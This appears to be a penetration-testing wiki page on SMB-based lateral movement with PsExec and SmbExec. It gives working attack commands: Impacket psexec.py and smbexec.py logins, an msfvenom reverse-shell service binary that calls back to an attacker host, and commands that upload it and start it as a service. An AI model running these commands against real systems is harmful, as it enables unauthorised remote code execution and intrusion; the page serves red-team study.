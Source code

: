 # SMB-based

## Theory

[SMB Protocol](../delivery/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell. \
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

